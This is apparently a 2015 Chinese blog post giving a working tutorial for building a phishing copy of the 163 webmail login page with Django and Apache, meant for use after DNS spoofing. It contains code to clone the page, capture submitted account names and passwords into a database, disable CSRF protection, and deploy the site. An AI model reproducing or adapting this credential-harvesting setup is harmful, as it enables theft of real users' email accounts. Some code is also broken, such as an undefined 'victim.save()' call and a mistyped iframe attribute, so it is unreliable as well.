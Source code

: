 ```yaml
---
title:  "<font color='red'>[原创]</font> Apache2+Django搭建钓鱼网站"
date:   2015-08-22 15:13:23
categories: [GEEK,原创]
tags: [GEEK,原创]
---
```


*使用Apache2和Django框架搭建163邮箱的钓鱼网站，用于DNS欺骗后将访问163邮箱网站的流量定向到钓鱼网站，并获取邮箱账号和密码*

## 安装Django
---

通过pip安装：

		$ pip install django

## 搭建钓鱼网站
---

### 准备工作

1. 用PyCharm生成Django工程，工程名为phisher，在工程根目录创建一个app，app名为mail：

		$ django-admin.py startapp mail

2. 在生成的mail目录中创建static和templates文件夹，分别用于存放静态文件(css, js, 图片等)和网页文件(html)

3. 在mail/static和mail/templates中创建163文件夹，用于存放163邮箱网页相关静态文件和网页文件

### 修改网页文件

1. 进入[http://mail.163.com/](http://mail.163.com/)网页，右键，保存所有网页文件

2. 修改html文件，删减无用代码，删除js，使其成为一个静态页面

3. 替换精简后的html文件中的链接为本地静态文件：

		{% raw %}
		<!DOCTYPE html>
		{% load static %}
		<html>
		<img src="{% static '163/163logo.gif' %}"></a>
		<link rel="stylesheet" type="text/css" href="{% static '163/loginpage.css' %}">
		...
		</html>
		{% endraw %}

4. 修改表单响应：

		<form action="/mail/163/login/" method="post">
		...
			<input type="text" name="account">
			<input type="password" name="password">
			<input type="submit">
		...
		</form>

5. 如碰到iframe：

		<iframe rc="/mail/163/login/"></iframe>

### 编写逻辑文件

1. 编写mail/models.py文件，定义数据库记录对象：

```python
# coding:utf-8
from __future__ import unicode_literals

from django.db import models


class Phishee(models.Model):
    account = models.CharField(max_length=30)
    password = models.CharField(max_length=30)
    timestamp = models.DateTimeField(auto_now=True)
    other = models.TextField()

    def __unicode__(self):
        return self.account

    class Meta:
        db_table = 'phishee'			# 指定表名
```

	编写完后同步数据库

		$ python manage.py makemigrations
		$ python manage.py migrate


2. 编写mail/view.py文件：

```python
# coding:utf-8
from django.shortcuts import render_to_response
from django import forms

from mail.models import Phishee


class PhisheeForm(forms.Form):
    account = forms.CharField()
    password = forms.CharField()


def index_163(request):
    return render_to_response('163/index.html')


def login_163(request):
    if request.method == 'POST':
        form = PhisheeForm(request.POST)
        form.is_valid()
        cdata = form.cleaned_data
        phishee = Phishee(
            account=cdata['account'],		# 'account'与表单中input对应
            password=cdata['password']		# 'password'与表单中input对应
        )
        print phishee.account, phishee.password
        victim.save()						# 存入数据库等其他逻辑
    else:
        form = PhisheeForm()
    return render_to_response('163/login.html')
```

### 修改配置文件

3. 修改phisher/settings.py文件：

		ALLOWED_HOSTS = ['*']		# 允许所有IP地址访问
		INSTALLED_APPS = [
		    ...,
		    'mail',					# 注册app
		]
		# 注释掉防止跨站请求伪造的中间件CsrfViewMiddleware
		MIDDLEWARE = [
			...,
		    #'django.middleware.csrf.CsrfViewMiddleware',
		    ...
		]
		# 修改数据库
		DATABASES = {
		    'default': {
		        'ENGINE': 'django.db.backends.mysql',
		        'NAME': '??',
		        'USER': '??',
		        'PASSWORD': '??',
		        'HOST': '127.0.0.1',
		        'PORT': '3306',
		    }
		}
		TIME_ZONE = 'Asia/Shanghai'	# 修改时区
		USE_TZ = False


4. 修改phisher/url.py文件：

		urlpatterns = [
		    url(r'^static/(?P<path>.*)$', static_views.serve),
		    url(r'^admin/', admin.site.urls),
		    url(r'^mail/163/index/$', views.index_163),
		    url(r'^mail/163/login/$', views.login_163),
		    url(r'^', views.index_163),
		]

### 测试

		$ manage.py runserver 8000

用浏览器打开[127.0.0.1:8000](27.0.0.1:8000)

## 使用Apache24运行CGI程序
---

1. 在/usr/local/etc/apache2/2.4/httpd.conf文件末尾添加：

		# 添加mod_wsgi.so模块
		LoadModule wsgi_module libexec/mod_wsgi-py27.so

		# 指定项目的wsgi.py配置文件路径  
		WSGIScriptAlias / /Users/wuyinan/Projects/python/phisher/phisher/wsgi.py

		# 指定项目路径  
		WSGIPythonPath /Users/wuyinan/Projects/python/phisher

		<Directory "/Users/wuyinan/Projects/python/phisher">
		  <Files wsgi.py>
		    Order deny,allow
		    Allow from all  
		  </Files>
		</Directory>

		# 指定Log路径
		ErrorLog /Users/wuyinan/Projects/python/phisher/log/error.log
		LogLevel warn
		CustomLog /Users/wuyinan/Projects/python/phisher/log/access.log combined

2. 测试：

		$ sudo apachectl start

	用浏览器打开[127.0.0.1](27.0.0.1)

	![测试界面](/assets/2015-08-22-1.jpeg "测试界面")
